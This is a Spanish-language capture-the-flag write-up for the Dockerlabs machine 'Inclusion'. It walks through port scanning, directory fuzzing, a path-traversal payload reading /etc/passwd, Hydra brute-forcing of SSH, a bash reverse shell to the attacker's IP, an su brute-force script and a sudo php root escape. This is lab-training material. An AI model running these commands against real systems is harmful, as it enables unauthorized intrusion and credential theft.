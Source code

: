 # Máquina Inclusion

---------------------

Dificultad -> Medium

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

-----------------
## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información relacionada al puerto 22 y 80:

```shell
nmap -sCV -p8080 172.17.0.2 -oN targeted
________________________________________________
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 03cf7254de54aecd2a16586b8af552dc (ECDSA)
|_  256 13bbc212f59730a149c7f9d0bad05ef7 (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Vemos algo más de info sobre el puerto 80 y 22. Vamos a echarle un vistazo a la web que corre por el puerto 80.

![Pasted image 20240414234421](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/ee73b905-00c4-41ff-ba59-5f00da5969b2)

Es la web por defecto de apache, así que aplicamos **Fuzzing** con **gobuster**.

```shell
gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash
-------------------------------------------------------------------------
/icons/               (Status: 403) [Size: 275]
/shop/                (Status: 200) [Size: 1112]
/server-status/       (Status: 403) [Size: 275] 
```

Encontramos un directorio **/shop**, accedemos, y nos encontramos con una pista.

![Pasted image 20240415001358](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/24b5bc57-55da-4e87-a4cd-21e6cc1859ba)

_**"Error de Sistema: ($_GET['archivo']"); **_

Esto nos dice que se está usando un parámetro llamado **archivo** en la url para pasarle un valor e incluir un archivo en la web. Esto puede ser vulnerable ante un **LFI** (Local File Inclusion)

Tras varias pruebas, conseguimos leer archivos de la máquina mediante un **Path traversal**

```
http://172.17.0.2/shop/?archivo=../../../../../../etc/passwd
```

![Pasted image 20240415001300](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/a7d86c4b-6b6b-4ebc-902b-4650a6d9a1ad)

Teniendo un **LFI** podemos tratar de derivarlo a un **RCE** (Remote Code Execution) mediante un **Log Poisoning** o envenenamiento de los logs del sistema. Consistirá en inyectar código malicioso mediante peticiones al sistema, que posteriormente llegue a ser interpretado por medio del **LFI**.

![Pasted image 20240415002355](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/5a7ccb2b-005d-4361-a578-9e693ce78de5)

Tenemos dos usuarios, **manchi** y **seller**. En este punto he intentado listar logs de apache, de ssh, claves privadas de estos dos usuarios para ssh, pero nada ha dado resultado. Por lo tanto, he hecho fuerza bruta al protocolo **ssh** con **hydra** para los dos usuarios. Y el usuario **manchi**, tenía una contraseña fácil, por lo tanto hemos conseguido adivinarla con **hydra**.

```shell
hydra -l manchi -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 4
----------------------------------------------------------
[22][ssh] host: 172.17.0.2   login: manchi   password: lovely
```

Credenciales -> **manchi:lovely**
Accedemos por **ssh**.

```
ssh manchi@172.17.0.2
```

---------------------------
### Tratamiento de la tty

Si tenemos problemas al aplicar el tratamiento de la **tty**, lo que podemos hacer es ponernos en escucha desde una consola nueva por un puerto. Por ejemplo con **netcat**

```shell
nc -nlvp 443
```

Y nos enviamos desde la máquina víctima una reverse shell para acceder:

```shell
bash -c "bash -i >&/dev/tcp/192.168.1.39/443 0>&1" 
```

(Siendo la 192.168.1.39 mi IP de la máquina atacante)

---------------

Realizaremos un breve **tratamiento de la tty** para poder operar de forma cómoda sobre la consola. Los comandos a ejecutar:

```shell
script /dev/null -c bash 
```
(hacemos  **ctrl  +  Z**)

```shell
stty raw -echo; fg
reset xterm
stty rows 62 columns 248
export TERM=xterm
export SHELL=bash
```

Pondremos en rows y columns las columnas y filas que correspondan a la pantalla de nuestra máquina.
Una vez hecho esto podemos maniobrar con comodidad, pudiendo hacer Ctrl+L para limpiar la pantalla así como Ctrl+C.

------------

## Escalada de privilegios

Revisamos directorio home de manchi, capabilities, archivos SUID, etc. Y no hemos encontrado nada, por lo que vamos a transferirnos un script para hacer fuerza bruta hacia el usuario **seller** desde la propia máquina. Nos transferiremos también el diccionario **rockyou**.

Nos descargamos el script.sh del siguiente repositorio en la **máquina atacante**-> [Script de fuerza bruta](https://github.com/Maalfer/Sudo_BruteForce/blob/main/Linux-Su-Force.sh)

```shell
wget https://raw.githubusercontent.com/Maalfer/Sudo_BruteForce/main/Linux-Su-Force.sh
```

Probamos a transferirlo con **wget** o **curl** pero no es posible porque no están instalados.
Los transferiremos utilizando **SCP** (Secure Copy) a la máquina con la dirección IP 172.17.0.2 a través de SSH.

Desde la máquina atacante indicamos la ruta del archivo a tranferir y la ruta de la máquina víctima donde se alojará:

```shell
scp rockyou.txt manchi@172.17.0.2:/home/manchi/rockyou.txt
scp Linux-Su-Force.sh manchi@172.17.0.2:/home/manchi/rockyou.txt
```

Le daremos permisos de ejecución y lo ejecutaremos hacia el usuario **seller*:

```shell
./Linux-Su-Force.sh seller rockyou.txt 
-----------------------------------------
Contraseña encontrada para el usuario seller: qwerty
```

Hemos encontrado la contraseña! -> **qwerty**
Migramos al usuario **seller**:

```shell
su seller
```

Usaremos "**sudo -l**" para ver si el usuario **seller** puede ejecutar algún binario con permisos privilegiados.

```shell
sudo -l
--------------------------------------
 (ALL) NOPASSWD: /usr/bin/php
```

Puede ejecutar **php**.
Podemos abusar de este con los siguiente comandos:

```shell
CMD="/bin/sh"
sudo php -r "system('$CMD');"
```

Si no sabemos como abusar de algún binario o lo desconocemos, siempre podemos consultar [GTFOBins](https://gtfobins.github.io/)

```shell
whoami
-----------------
root
```

Hemos conseguido el nivel de privilegios máximo!
